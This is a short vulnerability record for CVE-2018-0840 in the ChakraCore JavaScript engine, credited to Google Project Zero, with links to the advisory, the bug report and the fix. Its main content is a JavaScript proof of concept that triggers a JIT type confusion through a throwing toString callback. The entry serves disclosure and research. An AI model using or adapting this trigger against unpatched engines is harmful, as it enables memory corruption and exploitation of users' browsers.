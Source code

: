 # CVE-2018-0840

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, index) {
    arr[0] = 1.1;
    typeof(arr[index]);
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 0x10000; i++) {
        opt(arr, {});
    }

    opt(arr, {toString: () => {
        arr[0] = {};

        throw 1;
    }});

    print(arr[0]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0840)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1438)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/24c7fa24623886859c31f9f1173e76977408fce2)